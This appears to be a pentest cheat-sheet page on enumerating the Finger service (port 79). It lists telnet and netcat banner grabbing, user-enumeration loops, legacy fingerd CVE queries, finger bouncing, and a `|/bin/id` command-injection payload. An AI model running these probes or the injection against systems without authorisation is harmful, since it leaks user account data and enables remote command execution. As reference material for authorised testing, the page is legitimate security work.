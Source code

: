 ```yaml
---
menu: "Finger - 79"
title: "Name/Finger Service Enumeration"
weight: 79
---
```

# Finger

{{<highlight>}}
Finger user information protocol.

**Default Port**: 79
{{</highlight>}}

The Finger User Information Protocol ([RFC 1288](https://tools.ietf.org/html/rfc1288)),
is a simple protocol that provides
an interface to a remote user information program (RUIP).
[^rfc-1288]

## Banner Grabbing

#### Telnet

```sh
telnet {{< param "war.rhost" >}} 79
```

#### Netcat
```sh
echo "root" | nc -n {{< param "war.rhost" >}} 79
```

## Enumeration

### Tools

- [PentestMonkey - finger-user-enum](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum)

### Fast Enum

```sh
for q in 'root' 'admin' 'user' '0' "'a b c d e f g h'" '|/bin/id';do echo "FINGER: $q"; finger "$q@{{< param "war.rhost" >}}"; echo -e "\n";done
```

#### Finger [^finger]

List logged users.

```sh
finger @{{< param "war.rhost" >}}
```
Finger a specific user.
```sh
finger -l root@{{< param "war.rhost" >}}
```
Enumerate users containing `user`.
```sh
finger -l user@{{< param "war.rhost" >}}
```

{{<note>}}
Try other words as: `admin`, `account` or `project`.
{{</note>}}

{{<details "Parameters">}}
- `-l`: Multi-line format. Displays all the information.
{{</details>}}

### Finger Zero [^cve-1999-0197]

`fingerd` may respond to `finger 0@<host>`
with information on some user accounts.

```sh
finger 0@{{< param "war.rhost" >}}
```

### Finger 'a b c d e f g h' [^cve-2001-1503]

`fingerd` may respond to `'a b c d e f g h'@<host>`
with information on all accounts.

```sh
finger 'a b c d e f g h'@{{< param "war.rhost" >}}
```

## Finger Bouncing [^finger-bouncing]

`finger` can be used to relay a request
to a different host
as if it were sent from that machine.

```sh
finger @{{< param "war.rhost" >}}@10.10.10.4
```

```sh
finger root@{{< param "war.rhost" >}}@10.10.10.4
```

## Command Execution [^cve-1999-0152]

`fingerd` allows remote command execution
through shell metacharacters.

```sh
finger "|/bin/id@{{< param "war.rhost" >}}"
```

## Finger Exploits Search

Refer to [Exploits Search]({{< ref "exploits-search">}})

[^rfc-1288]: “RFC 1288 - The Finger User Information Protocol.” IETF Tools, https://tools.ietf.org/html/rfc1288.
[^finger]: “Finger(1): User Info Lookup Program.” Linux Documentation, https://linux.die.net/man/1/finger.
[^cve-1999-0197]: “CVE - CVE-1999-0197.” CVE - Common Vulnerabilities and Exposures (CVE), https://cve.mitre.org/cgi-bin/cvename.cgi?name=1999-0197.
[^cve-2001-1503]: “CVE - CVE-2001-1503.” CVE - Common Vulnerabilities and Exposures (CVE), https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2001-1503.
[^finger-bouncing]: “‘Solaris 2.7 Allows Finger Bouncing’ .” SecuriTeam, 15 Jan. 1999, https://securiteam.com/exploits/2BUQ2RFQ0I/.
[^cve-1999-0152]: “CVE - CVE-1999-0152.” CVE -  Common Vulnerabilities and Exposures (CVE), https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-0152.
